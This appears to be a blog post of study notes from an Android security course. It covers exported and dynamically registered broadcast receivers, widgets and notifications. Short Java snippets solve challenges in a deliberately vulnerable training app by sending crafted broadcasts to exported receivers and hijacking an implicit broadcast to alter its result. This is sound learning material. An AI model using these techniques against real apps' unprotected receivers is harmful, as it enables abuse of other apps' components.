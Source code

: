 ```yaml
---
layout: post
title: Broadcast Receivers
date: 2025-03-27 16:24 +0200
categories: Hextree-Android-Course
tags: android hextree
---
```

# **Basic Broadcast Receivers**

There are two ways how [broadcast receivers](https://developer.android.com/reference/android/content/BroadcastReceiver) could be used by an app. First they could be exported via the `AndroidManifest.xml` with a `<receiver>` tag.

The other way is by dynamically registering a receiver class using [`registerReceiver()`](https://developer.android.com/reference/android/content/Context#registerReceiver(android.content.BroadcastReceiver,%20android.content.IntentFilter)).

As an example we can look at the [AntennaPod](https://play.google.com/store/apps/details?id=de.danoeh.antennapod&hl=en) app how it uses broadcast receivers. We are going to use this app as an example throughout this course, so make sure to download it.

---

# **Sending Broadcasts**

You can also practice basic broadcast interaction with the Intent Attack Surface app. Try to send a broadcast to the exported `Flag16Receiver` and trigger the call to `success()`.

```java
Intent intent = new Intent();
intent.setClassName("io.hextree.attacksurface",
        "io.hextree.attacksurface.receivers.Flag16Receiver");
intent.putExtra("flag", "give-flag-16");
sendBroadcast(intent);
```

---

# **System Event Broadcasts**

There exist several broadcast actions that are used by the system - obviously regular apps are not allowed to send them. But that doesn't mean the receivers that handle these are properly protected.

Maybe if you make change in the action string it will work 

---

# **Intercept and Redirecting Broadcasts**

## **Hijack Broadcasts**

Lots of concepts we have learned about for regular activity intents can also be applied to broadcast receivers. For example hijacking implicit intents. Can you intercept the broadcast sent by the `Flag18Activity` to get the flag?

```java
BroadcastReceiver receiver = new BroadcastReceiver() {
            @Override
            public void onReceive(Context context, Intent intent) {
                setResultCode(2);
                setResultData("kero"); 
            }
        };
        registerReceiver(receiver, new IntentFilter("io.hextree.broadcast.FREE_FLAG"));
```

## **Malicious Return Values**

With activities we have seen that an activity can also return a result back to the caller. With broadcasts there is also a way to handle responses which is additional attack surface.

```java
        Intent intent = new Intent();
        intent.setClassName("io.hextree.attacksurface",
                "io.hextree.attacksurface.receivers.Flag17Receiver");
        String FlagSecret = "give-flag-17";
        intent.putExtra("flag", FlagSecret);
        sendOrderedBroadcast(intent, null);
```

---

# **Home Screen App Widgets**

[Widgets](https://developer.android.com/develop/ui/views/appwidgets#drawablemy_widget_background.xml) are a cool feature allowing apps to create small user interfaces that get directly embedded on the home screen. This means the widgets are actually running within another app!

The [`AppWidgetProvider`](https://developer.android.com/reference/android/appwidget/AppWidgetProvider) is actually a wrapper around [`BroadcastReceiver`](https://developer.android.com/reference/android/content/BroadcastReceiver) to update the widget data in the background. It can also handle interactions with the widget such as button presses. But because the widget is running inside the home screen, broadcast `PendingIntents` are used to handle the button presses.

---

# **The Notification System**

Notifications can be easily [created](https://developer.android.com/develop/ui/views/notifications/build-notification) using the notification builder. Inside of notifications you can also add button actions by preparing a `PendingIntent`. The reason for that is because the notification is again handled by a different app.

**THANKS FOR READING ❤️**


